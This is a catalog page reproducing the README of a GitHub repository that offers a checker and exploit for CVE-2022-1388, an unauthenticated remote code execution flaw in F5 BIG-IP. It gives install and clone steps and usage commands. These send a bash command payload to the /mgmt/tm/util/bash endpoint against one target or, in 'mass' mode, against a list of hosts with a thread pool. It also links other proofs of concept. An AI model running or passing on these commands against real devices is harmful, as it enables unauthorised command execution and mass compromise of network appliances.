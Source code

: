 # CVE-2022-1388

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/revanmalang](https://github.com/revanmalang) |
| Url      | [https://github.com/revanmalang/CVE-2022-1388](https://github.com/revanmalang/CVE-2022-1388)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* exploit

</details>

## Readme

# CVE-2022-1388
## Checking and exploit for CVE-2022-1388

#### Installation:
```
python3 -m pip install -r requirements.txt
```

#### Usage

Single : 
```bash
python3 cve.py s [fullurl] [api_command]

#example
python3 cve.py s http://127.0.0.1:8000/mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}'
```
Mass :

```bash
python3 cve.py m [host list] [endpoint] [api_command] [pool]

#example
python3 cve.py m host.txt /mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}' 10
```

### References:
- https://github.com/Zeyad-Azima/CVE-2022-1388
- https://github.com/bandit92/CVE2022-1388_TestAPI
- https://github.com/alt3kx/CVE-2022-1388_PoC
- https://www.obrela.com/f5-big-ip-cve-2022-1388-unauthenticated-rce-vulnerability/



## Get the content

```
git clone https://github.com/revanmalang/CVE-2022-1388
cd CVE-2022-1388
```

{% embed url="https://github.com/revanmalang/CVE-2022-1388" %}

<figure><img src="https://avatars.githubusercontent.com/u/91707288?v=4" alt=""><figcaption><p>revanmalang</p></figcaption></figure>
